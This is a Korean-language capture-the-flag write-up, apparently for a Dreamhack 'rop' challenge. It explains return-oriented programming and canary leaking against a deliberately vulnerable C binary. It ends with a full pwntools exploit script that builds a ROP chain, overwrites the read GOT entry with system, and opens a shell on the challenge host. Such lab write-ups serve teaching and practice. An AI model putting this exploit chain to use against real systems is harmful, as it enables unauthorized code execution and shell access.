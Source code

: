 rop 라이트업
===============


### Return Oriented Programming

rop은 리턴 가젯을 사용하여 복잡한 실행 흐름을 구현하는 기법이다. 공격자는 이를 이용해서 문제 상황에 맞춰 return to library, return to dl-resolbe, GOT overwrite 등의 페이로드를 구성할 수 있다.


### 코드 분석 

```c
#include <stdio.h>
#include <unistd.h>

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  write(1, "Buf: ", 5);
  read(0, buf, 0x100);

  return 0;
}
```

취약점은 return to library 문제와 동일하다.   

그러나 바이너리에서 system 함수를 호출하지 않아서 PLT에 등록되지 않으며 /bin/sh 문자열도 데디터 섹션에 기록하지 않는다. 따라서 system 함수를 익스플로잇에 사용하려면 함수의 주소를 직접 구해야 하고 /bin/sh 문자열을 사용할 다른 방법을 찾아내야 한다.


## 익스플로잇

### system 함수의 주소 계산


* `system` 함수는 `libc.so.6` 라이브러리에 정의되어 있다. `read`, `puts`, `printf`와 같은 함수들도 포함하고 있으며 바이너리 실행 시 전체가 프로세스 메모리에 매핑된다.
* 바이너리가 `system` 함수를 직접 호출하지 않기 때문에 `system` 함수는 GOT에 등록되지 않는다. 하지만 `read`, `puts`, `printf`는 GOT에 등록되어 있다.
* **`system` 주소 계산 방법**: main 함수에서 이 GOT에 등록된 함수들(read, puts, printf)을 호출한 이후 이들의 GOT 주소를 읽을 수 있다. `libc.so.6`가 매핑된 영역의 임의의 주소를 알 수 있다면 같은 `libc` 버전 내에서 다른 데이터와 함수의 옵셋(거리)은 항상 같으므로, `read` 함수와 `system` 함수의 주소 차이를 이용하여 `system` 함수의 주소를 계산할 수 있다.
* **공격 전략**: `read`, `puts`, `printf`가 GOT에 등록되어 있으므로 이 중 하나의 함수의 GOT 주소를 읽은 후 그 주소와 `system` 함수 사이의 거리를 이용하여 `system` 함수의 주소를 구할 수 있다.


### "/bin/sh"

* 바이너리에는 `/bin/sh` 문자열이 직접 포함되어 있지 않다. 따라서 문자열을 임의의 버퍼에 직접 주입하거나 다른 파일에 포함된 것을 사용해야 한다.
* **`libc.so.6`에 포함된 `/bin/sh`**: 일반적으로 `libc.so.6` 라이브러리에는 `/bin/sh` 문자열이 포함되어 있다.
* **`/bin/sh` 주소 계산 방법**: `system` 함수의 주소를 계산하는 것과 유사하게, `libc` 영역의 임의의 주소를 구한 후 그 주소를 기준으로 오프셋을 더하거나 빼서 `/bin/sh` 문자열의 주소를 계산할 수 있다.
* **대체 전략**: 이 방법을 통해 주소를 알아내기 어렵거나 사용할 수 없는 상황에서는 주소를 알고 있는 버퍼에 직접 `/bin/sh`를 입력하는 것이 차선책이 될 수 있다.
* **`gdb`를 이용한 `/bin/sh` 주소 찾기**: pwndbg의 `search /bin/sh` 명령어를 사용하여 `libc.so.6` 내의 `/bin/sh` 문자열 주소를 찾을 수 있다. 


### GOT Overwrite

* `system` 함수와 `/bin/sh` 문자열의 주소를 알고 있으면 `pop rdi; ret` 가젯을 활용하여 `system("/bin/sh")`를 호출할 수 있다.
* **`ret2main` 패턴**: 그러나 `system` 함수를 호출한 후에는 다시 `main` 함수로 돌아와서 버퍼 오버플로우를 일으켜야 한다. 이러한 공격 패턴을 `ret2main`이라고 부른다.


### 가젯 주소 구하기

<img width="927" height="157" alt="image" src="https://github.com/user-attachments/assets/fa20a022-0670-4969-a688-ac2622c31ee2" />


### 익스플로잇 코드

```python
from pwn import *

context(arch='amd64', os='linux')

p = remote('host8.dreamhack.games', 23016)
e = ELF('./rop')
libc = ELF('./libc.so.6')

read_plt = e.plt['read']
read_got = e.got['read']
write_plt = e.plt['write']
write_got = e.got['write']

pop_rdi = 0x400853
pop_rsi_r15 = 0x400851
ret = 0x400596

buf1 = b'A' * 0x39
p.sendafter('Buf: ', buf1)

p.recvuntil(buf1)
canary = u64(b'\x00' + p.recvn(7))
log.info(f'canary : {hex(canary)}')

payload = b'A' * 0x38
payload += p64(canary)
payload += b'A' * 0x8

payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(write_plt)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi_r15)
payload += p64(read_got)
payload += p64(0)
payload += p64(read_plt)

payload += p64(pop_rdi)
payload += p64(read_got + 0x8)
payload += p64(ret)
payload += p64(read_plt)

p.sendafter('Buf: ', payload)

read_addr = u64(p.recvn(8))
libc_base = read_addr - libc.symbols['read']
log.info(f'read : {hex(read_addr)}')

system = libc_base + libc.symbols['system']
log.info(f'system : {hex(system)}')

p.send(p64(system) + b'/bin/sh\x00')

p.interactive()
```

